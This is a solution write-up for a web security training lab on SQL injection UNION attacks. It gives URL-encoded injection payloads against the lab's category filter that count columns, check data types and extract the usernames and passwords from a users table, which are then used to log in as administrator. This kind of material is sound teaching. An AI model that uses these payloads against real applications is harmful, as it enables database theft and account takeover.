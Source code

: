 # Lab: SQL injection UNION attack, retrieving data from other tables
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
Now we have to combine the learned lessons from the previous labs. First we need to determine the number of columns again. The following query shows that there are two columns:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null%20--%20
```

We knwo that we are looking for the columns username and password. Therefore both columns probably also use the strings data type. But let's evaluate this:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20%27a%27,%27a%27%20--%20
```

At last we can build the injection to query the login information:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20username,password%20from%20users%20--%20
```

This will create some kind of the following SQL query:
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT username,password FROM users -- 
```

In the output of the website the users with passwords show up:
![Successful UNION attack](../images/SQL_injection_UNION_attack_retrieving_data_from_other_tables.png)

To login as the administrator we have to click on 'My account' and enter the found credentials. After that the lab is solved.

